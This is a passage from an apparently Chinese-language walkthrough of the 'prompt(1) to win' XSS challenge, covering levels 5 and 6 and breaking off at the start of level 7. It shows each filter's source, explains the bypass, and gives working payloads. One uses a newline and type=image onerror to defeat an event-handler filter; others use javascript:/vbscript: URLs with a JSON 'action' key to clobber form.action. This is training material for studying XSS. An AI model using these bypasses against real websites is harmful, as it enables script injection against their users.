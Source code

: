 ```
function escape(input) {
    // apply strict filter rules of level 0
    // filter ">" and event handlers
    input = input.replace(/>|on.+?=|focus/gi, '_');

    return '<input value="' + input + '" type="text">';
} 
```
1、首先是过滤，把onxxxx=这样的替换为_,这里用一个回车绕过。
2、其次是第二点，就是后面的type不可以覆盖前面的，所以可以把type=image。
```
"type=image src onerror
="prompt(1)
```

## level6 ##
```
function escape(input) {
    // let's do a post redirection
    try {
        // pass in formURL#formDataJSON
        // e.g. http://httpbin.org/post#{"name":"Matt"}
        var segments = input.split('#');
        var formURL = segments[0];
        var formData = JSON.parse(segments[1]);

        var form = document.createElement('form');
        form.action = formURL;
        form.method = 'post';

        for (var i in formData) {
            var input = form.appendChild(document.createElement('input'));
            input.name = i;
            input.setAttribute('value', formData[i]);
        }

        return form.outerHTML + '                         \n\
<script>                                                  \n\
    // forbid javascript: or vbscript: and data: stuff    \n\
    if (!/script:|data:/i.test(document.forms[0].action)) \n\
        document.forms[0].submit();                       \n\
    else                                                  \n\
        document.write("Action forbidden.")               \n\
</script>                                                 \n\
        ';
    } catch (e) {
        return 'Invalid form data.';
    }
}        
```
分析源码可以看到，大概是由#分割，前面赋给form.action，使method=post，后面以json格式赋给formdata，把formdata中的属性循环赋给了input。后面满足forms.action存在即执行提交，所以这里使用js伪协议。
```
javascript:prompt(1)#{"action":0}
```
IE下可以使用vbscript减少字符
```
vbscript:prompt(1)#{"action":1}
```
## level7 ##
```
function escape(input) {
    // pass in something like dog#cat#bird#mouse...
```